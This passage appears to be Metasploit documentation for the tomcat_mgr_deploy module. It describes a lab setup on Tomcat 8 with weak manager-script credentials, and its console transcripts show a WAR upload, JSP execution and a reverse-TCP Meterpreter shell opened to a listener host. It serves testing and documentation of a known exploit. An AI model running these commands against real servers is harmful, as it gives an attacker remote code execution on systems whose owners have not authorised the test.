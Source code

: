     [*] 192.168.2.108:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_deploy) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Java Universal"
    [*] Uploading 6086 bytes as Cl6t6gurtwIO59zV3Lt6.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /Cl6t6gurtwIO59zV3Lt6/qTIP.jsp...
    [*] Undeploying Cl6t6gurtwIO59zV3Lt6 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:1656) at 2017-01-14 14:27:21 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

#### gui Interface
The permission `manager-gui`, is required for this exploitation, and the `PATH` should be `/manager/html`.  However, my attempts were unsuccessful, also wasn't able to figure out where the `check` command's `serverinfo` URL was located.  [Manual exploitation is possible](#manual-exploitation)

### Tomcat 8 (8.0.39)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat8](http://apache.osuosl.org/tomcat/tomcat-8/v8.0.39/bin/apache-tomcat-8.0.39.exe)

The install was default, other than adding a user during install.  No other options were changed.
Of note, while the user was given `manager-gui` permissions, they didn't actually define that role.
So the `/manager/html` page was visible, but deploying from there wasn't possible.

#### text/script Interface Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 8.0\tomcat-users.xml` to add the following under the `<tomcat-users` line:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart the service

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat